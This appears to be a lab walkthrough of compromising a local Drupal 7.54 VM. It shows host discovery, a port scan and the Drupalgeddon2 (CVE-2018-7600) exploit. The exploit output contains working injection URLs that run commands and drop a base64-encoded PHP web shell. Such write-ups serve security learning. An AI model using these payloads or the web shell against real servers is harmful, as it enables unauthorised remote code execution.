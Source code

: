 Discover the IP using arp-scan <br>
```
arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
**Also, there is an interesting file ```CHANGELOG.txt``` which might expose the accurate version used under 7.x**

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version is vulnerable to RCE.
Let's pull the exploit and run it after installing the latest version of Ruby. 

**Always check the exploit before running + switch on verbose mode if there is, it is easy to trip IDS/IPS with weird filenames. Above exploit creates a file named s.php (and an obvious User Agent header 'druppalgeddon') and auto uploads to the server**

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a a minimal CLI.
